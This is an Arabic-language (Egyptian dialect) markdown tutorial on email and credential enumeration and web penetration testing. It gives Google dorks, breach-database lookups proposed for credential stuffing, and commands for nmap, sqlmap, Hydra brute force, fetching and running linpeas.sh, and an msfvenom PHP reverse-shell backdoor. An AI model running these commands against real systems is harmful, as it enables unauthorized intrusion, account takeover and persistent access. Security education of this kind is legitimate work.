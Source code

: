 ## **📌 البحث عن البريد الإلكتروني في المصادر العامة (Email & Credential Enumeration) 📧🔍**

### **🟢 1️⃣ يعني إيه Email Enumeration؟**

ببساطة، **دي عملية البحث عن إيميلات المستخدمين المرتبطة بموقع معين**.  
ليه ده مهم؟ 🤔  
✅ لأن لو قدرنا نجيب الإيميلات، ممكن نستغلها في:

- **هجمات التصيد الاحتيالي (Phishing Attacks)** 🎣
- **تجربة كلمات سر قديمة (Credential Stuffing)** 🔑
- **اختبار تسجيل الدخول بطريقة تخمين كلمات السر (Brute Force)** 🚀

---

## **🟢 2️⃣ إزاي تلاقي الإيميلات بسهولة؟ 🚀**

### **✅ 1- البحث في جوجل (Google Dorking) 🕵️**

جوجل ممكن يساعدك تلاقي الإيميلات بسهولة لو استخدمت الطرق الصح! 😏  
📌 جرب تبحث كده:

🔹 **للبحث عن إيميلات مرتبطة بدومين معين:**

```bash
site:example.com intext:"@example.com"
```

🔹 **للبحث عن ملفات ممكن تحتوي على إيميلات:**

```bash
site:example.com filetype:xls OR filetype:pdf OR filetype:txt "@example.com"
```

🔥 **لو الموقع مخزن إيميلات في ملفات عامة، جوجل هيطلعها!**

---

### **✅ 2- استخدام أدوات مفتوحة المصدر 🛠️**

📌 فيه أدوات بتسهل عليك العملية دي، زي:

🔹 **[[TheHarvester]]** → يجمع إيميلات من محركات البحث زي جوجل وبينج، وكمان LinkedIn:

```bash
theHarvester -d example.com -b google
```

🔹 **hunter.io** → موقع بيجيب إيميلات مرتبطة بدومين معين.  
🔹 **emailrep.io** → بيعرفك هل الإيميل ده موثوق أو اتسرب قبل كده.

---

### **✅ 3- البحث في تسريبات البيانات (Data Breaches) 🔥**

📌 أحيانًا، المواقع بتتعرض للاختراق وبتتسرب الإيميلات وكلمات السر.

🔹 **جرب تدور على الإيميلات في المواقع دي:**

- 🔗 [https://haveibeenpwned.com/](https://haveibeenpwned.com/) → بيعرفك لو الإيميل اتسرب قبل كده.
- 🔗 [https://dehashed.com/](https://dehashed.com/) → قاعدة بيانات ضخمة بتسمحلك تدور على إيميلات وكلمات سر مسربة.
- 🔗 [https://breachdirectory.org/](https://breachdirectory.org/) → تقدر تبحث عن الإيميلات المسربة بسهولة.

🔥 **لو لقيت إيميلات متسربة مع كلمات سر، ممكن تستخدمها في Credential Stuffing Attack!**

---

### **✅ 4- البحث في الشبكات الاجتماعية (LinkedIn, Twitter, GitHub) 🔍**

📌 أحيانًا الموظفين نفسهم بينشروا الإيميلات بدون قصد في بروفايلاتهم أو مستنداتهم!

🔹 **البحث عن إيميلات في LinkedIn**  
جرب تبحث في جوجل كده:

```bash
site:linkedin.com "@example.com"
```

🔹 **البحث عن إيميلات في GitHub**  
📌 بعض المطورين بينسوا إنهم كتبوا إيميلاتهم في الأكواد العامة، فجرب تبحث كده:

```bash
site:github.com "@example.com"
```

🔥 **ممكن تلاقي إيميلات مخزنة في ملفات `README.md` أو `config.json`!**

---

## **🔥 الخلاصة بالعامية 🔥**

✅ **عاوز تلاقي إيميلات موقع معين؟ جرب الحاجات دي:**  
1️⃣ **جوجل دوركينج** → استخدم `site:example.com intext:"@example.com"`.  
2️⃣ **أدوات زي theHarvester و hunter.io** بتجمع الإيميلات تلقائيًا.  
3️⃣ **ابحث في قواعد البيانات المسربة** زي `HaveIBeenPwned` عشان تشوف الإيميلات اللي اتسربت قبل كده.  
4️⃣ **دور في LinkedIn و GitHub** لأن الموظفين ساعات بينسوا ويكتبوا إيميلاتهم في بروفايلاتهم أو الأكواد.

🚀 **كده معاك طرق احترافية تلاقي بيها إيميلات أي شركة أو موقع، وده خطوة مهمة لاختبار الاختراق! 😈🔍**

---

# **📌 الخطوات العملية لـ Web Penetration Testing 🔥**

### **✅ 1- جمع المعلومات (Information Gathering) 🕵️**

- استخدم **whois** لمعرفة معلومات عن الدومين:

```bash
whois example.com
```

- استخدم **theHarvester** لجمع الإيميلات:

```bash
theHarvester -d example.com -b google
```

- استخدم **[[subfinder]]** و **[[Amass]]** لتحديد النطاقات الفرعية:

```bash
subfinder -d example.com
amass enum -passive -d example.com
```

---

### **✅ 2- فحص الثغرات (Scanning & Enumeration) 🔍**

- استخدم **Nmap** لفحص الخدمات المفتوحة:

```bash
nmap -sV -sC -p- example.com
```

- استخدم [[dirsearch]] أو **[[Gobuster]]** للبحث عن المجلدات المخفية:

```bash
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
```

---

### **✅ 3- استغلال الثغرات (Exploitation) 😈**

- لو الموقع عنده **SQL Injection**، جرب:

```bash
sqlmap -u "https://example.com/page.php?id=1" --dbs
```

- لو الموقع عنده **XSS**، جرب:

```html
<script>alert("XSS")</script>
```

- لو عندك بيانات دخول، جرب **Brute Force** باستخدام Hydra:

```bash
hydra -l admin -P passwords.txt example.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

---

### **✅ 4- رفع الامتيازات (Privilege Escalation) 🚀**

- لو قدرت تدخل على السيرفر، استخدم **LinPEAS** أو **winPEAS** للبحث عن ثغرات التصعيد:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### **✅ 5- الحفاظ على الوصول (Post Exploitation) 🛠️**

- أنشئ **backdoor** للحفاظ على الوصول:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f raw > shell.php
```

---

## **🔥 الخلاصة (خطوات اختبار الاختراق) 🔥**

1️⃣ **جمع المعلومات** → حدد النطاقات الفرعية، الإيميلات، والخدمات.  
2️⃣ **فحص الموقع** → ابحث عن صفحات مخفية وثغرات معروفة.  
3️⃣ **استغلال الثغرات** → جرب SQLi، XSS، LFI، RCE.  
4️⃣ **رفع الامتيازات** → حاول تترقى لصلاحيات أعلى في السيرفر.  
5️⃣ **حافظ على الوصول** → ثبت Backdoor لو محتاج ترجع للموقع لاحقًا.

🚀 **كده عندك خطة كاملة لاختبار اختراق أي موقع! 😈🔥**